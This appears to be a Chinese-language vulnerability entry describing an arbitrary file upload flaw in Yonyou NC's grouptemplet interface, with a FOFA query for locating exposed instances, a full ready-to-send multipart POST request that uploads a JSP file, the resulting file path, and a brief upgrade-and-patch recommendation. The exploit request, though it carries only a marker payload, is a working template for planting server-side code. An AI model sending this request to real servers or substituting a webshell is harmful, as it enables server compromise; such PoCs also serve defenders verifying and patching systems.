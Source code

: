 **漏洞名称**

用友NC grouptemplet 任意文件上传漏洞

**漏洞影响**

用友NC 版本不详

**漏洞描述**

用友NC是大型企业管理与电子商务平台，帮助企业实现管理转型升级全面从以产品为中心转向以客户为中心（C2B）；从流程驱动转向数据驱动（DDE）；从延时运行转为实时运行（RTE）；从领导指挥到员工创新（E2M）。用友NC grouptemplet接口处存在任意文件上传漏洞，攻击者通过漏洞可以获取网站权限，导致服务器失陷。

**FOFA搜索语句**

```
icon_hash="1085941792"
```

**漏洞复现**

```yaml

POST /uapim/upload/grouptemplet?groupid=nc&fileType=jsp HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.93 Safari/537.36
Connection: close
Content-Length: 268
Content-type: multipart/form-data; boundary=----------ny4hGVLLpZPZm0CE3KNtyhNSXvFgk
Accept-Encoding: gzip

------------ny4hGVLLpZPZm0CE3KNtyhNSXvFgk
Content-Disposition: form-data; name="upload"; filename="2fiu0YTGkaX2DrJlUZZP5IGvNvk.jsp"
Content-Type: application/octet-stream

<%out.println("2fiu0WM4788fa6NcMHipkIthTTW");%>
------------ny4hGVLLpZPZm0CE3KNtyhNSXvFgk--
```

路径

```yaml
/uapim/static/pages/nc/head.jsp
```

**修复建议**



升级到最新版本。

用友安全中心补丁连接

```
https://security.yonyou.com/#/patchList
```